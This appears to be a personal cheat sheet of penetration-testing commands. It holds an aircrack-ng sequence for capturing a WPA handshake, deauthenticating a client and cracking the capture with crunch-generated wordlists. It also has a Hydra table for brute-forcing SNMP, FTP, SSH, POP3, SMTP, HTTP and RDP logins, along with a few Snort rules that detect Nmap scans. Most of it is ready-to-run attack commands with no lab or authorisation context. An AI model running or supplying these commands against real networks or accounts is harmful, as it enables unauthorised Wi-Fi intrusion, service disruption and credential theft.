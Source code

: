 **##### terminal 1: airodump-ng wlan0\
**##### terminal 1: airodump-ng -c 2 -w packetcapture -d AA:AA:AA:AA:AA:AA wlan0\
**##### terminal 2: aireplay-ng --deauth 100 -a AA:AA:AA:AA:AA:AA -c 00:00:00:00:00:00 wlan0\
**##### terminal 3: aircrack-ng packetcapture-01.cap -w passwords.txt\
\
////Aircrack wifi crack\
crunch 8 8 "ABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890abcdefghijklmnopqrstuvwxyz" -t @@@@@@@@ | aircrack-ng packetcapture-01.cap -b AA:AA:AA:AA:AA:AA -w - | tee\
\
////Aircrack Create Wordlists\
crunch 8 8 "abcdefghijklmnopqrstuvwxyz" -t @@@@@@@@ | tee 8char_lowercase_ALPHA_wordlist.txt    #1.7TB file size\
crunch 8 8 "ABCDEFGHIJKLMNOPQRSTUVWXY" -t @@@@@@@@ | tee 8char_uppercase_ALPHA_wordlist.txt    #1.7TB file size\
crunch 9 9 "0123456789" -t @@@@@@@@@ | tee 9char_mobileno_wordlist.txt     #9GB file size\
\
\
# SNORT RULES AND RUN
/etc/snort/rules/local.rules

alert icmp any any -> 192.168.0.0/24 any (msg: "NMAP ping sweep Scan"; dsize:0;sid:10000004; rev: 1;)

alert tcp any any -> 192.168.0.0/24 any (msg: "NMAP TCP Scan";sid:10000005; rev:2; )

alert tcp any any -> 192.168.0.0/24 any (msg:"Nmap XMAS Tree Scan"; flags:FPU; sid:1000006; rev:1; )

alert tcp any any -> 192.168.0.0/24 any (msg:"Nmap FIN Scan"; flags:F; sid:1000008; rev:1;)

alert tcp any any -> 192.168.0.0/24 any (msg:"Nmap NULL Scan"; flags:0; sid:1000009; rev:1; )

alert udp any any -> 192.168.0.0/24 any ( msg:"Nmap UDP Scan"; sid:1000010; rev:1; )

**##### terminal 1: sudo snort -A console -q -u snort -g snort -c /etc/snort/snort.conf -i wlp1s0f0









# Hydra-Cheatsheet
Hydra Password Cracking Cheetsheet

The following table uses the $ip variable which can be set with the following command:  

`export ip 10.10.10.1`


| Command | Description |
|-------------------------------------------------------------------------------------------------------------------------------------------|------------------------------------------------------|
| hydra -P password-file.txt -v $ip snmp                                                                                                    | Hydra brute force against SNMP                       |
| hydra -t 1 -l admin -P /usr/share/wordlists/rockyou.txt -vV $ip ftp                                                                       | Hydra FTP known user and rockyou password list       |
| hydra -v -V -u -L users.txt -P passwords.txt -t 1 -u $ip ssh                                                                              | Hydra SSH using list of users and passwords          |
| hydra -v -V -u -L users.txt -p "<known password>" -t 1 -u $ip ssh                                                                         | Hydra SSH using a known password and a username list |
| hydra $ip -s 22 ssh -l <user> -P big_wordlist.txt                                                                                         | Hydra SSH Against Known username on port 22          |
| hydra -l USERNAME -P /usr/share/wordlistsnmap.lst -f $ip pop3 -V                                                                          | Hydra POP3 Brute Force                               |
| hydra -P /usr/share/wordlistsnmap.lst $ip smtp -V                                                                                         | Hydra SMTP Brute Force                               |
| hydra -L ./webapp.txt -P ./webapp.txt $ip http-get /admin                                                                                 | Hydra attack http get 401 login with a dictionary    |
| hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt rdp://$ip                                                           | Hydra attack Windows Remote Desktop with rockyou     |
